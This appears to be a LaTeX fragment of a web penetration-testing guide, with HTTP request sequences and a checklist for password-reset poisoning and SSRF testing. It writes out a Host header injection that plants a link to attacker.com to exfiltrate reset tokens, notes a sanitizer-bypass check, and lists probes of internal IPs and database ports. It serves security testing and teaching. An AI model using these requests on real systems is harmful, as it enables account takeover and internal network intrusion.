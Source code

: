 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Testing Procedure}
\begin{lstlisting}[caption=Password Reset Test Sequence]
# Step 1: Submit password reset
POST /forgot-password HTTP/1.1
Host: vulnerable.com
username=test@email.com

# Step 2: Attempt poisoning
POST /forgot-password HTTP/1.1
Host: vulnerable.com:'<a href="//attacker.com/?
username=test@email.com

# Step 3: Check email content
# Look for: Links using injected host
# Raw HTML vs rendered view
\end{lstlisting}

\subsection{Checklist}
\begin{checklistbox}
 Identify password reset functionality
\end{checklistbox}
\begin{checklistbox}
 Check email generation and sending
\end{checklistbox}
\begin{checklistbox}
 Analyze email content (raw HTML)
\end{checklistbox}
\begin{checklistbox}
 Test Host header injection in reset link
\end{checklistbox}
\begin{checklistbox}
 Test dangling markup injection
\end{checklistbox}
\begin{checklistbox}
 Check if sanitization (DOMPurify) can be bypassed
\end{checklistbox}
\begin{checklistbox}
 Verify token exfiltration via logs
\end{checklistbox}

\section{SSRF Tests}

\subsection{Testing Procedure}
\begin{lstlisting}[caption=SSRF Test Sequence]
# Step 1: Collaborator detection
GET https://vulnerable.com/ HTTP/1.1
Host: BURP-COLLABORATOR.net

# Step 2: Internal IP scanning
GET https://vulnerable.com/ HTTP/1.1
Host: 192.168.0.1
Host: 10.0.0.1
Host: 172.16.0.1

# Step 3: Access internal services
GET https://vulnerable.com/ HTTP/1.1
Host: 192.168.0.1:6379   # Redis
Host: 192.168.0.1:5432   # PostgreSQL
Host: 192.168.0.1:3306   # MySQL
\end{lstlisting}
\end{document}
